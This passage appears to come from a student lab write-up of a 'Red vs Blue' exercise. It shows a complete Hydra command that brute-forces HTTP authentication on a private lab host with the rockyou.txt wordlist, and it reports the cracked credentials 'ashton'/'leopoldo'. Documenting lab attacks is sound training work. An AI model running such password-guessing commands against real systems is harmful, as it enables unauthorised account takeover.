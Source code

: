 **Tools & Processes**

I used Hydra which is already preinstalled on Kali Linux. I also required a password list – in this case I used rockyou.txt

**Command**: $ hydra -l ashton -P /root/Downloads/rockyou.txt -s 80 -f 192.168.1.105 http-get /company_folders/secret_folder

**Achievements**

The exploit provided me with confirmation of the login name ‘**ashton**’ as well as the password ‘**leopoldo**’.

User access achieved.
![](https://github.com/paulsbarrett/RedvsBlue-Project/blob/main/images/brute_force_ashton.png)

![](https://github.com/paulsbarrett/RedvsBlue-Project/blob/main/images/hydra_results.png)
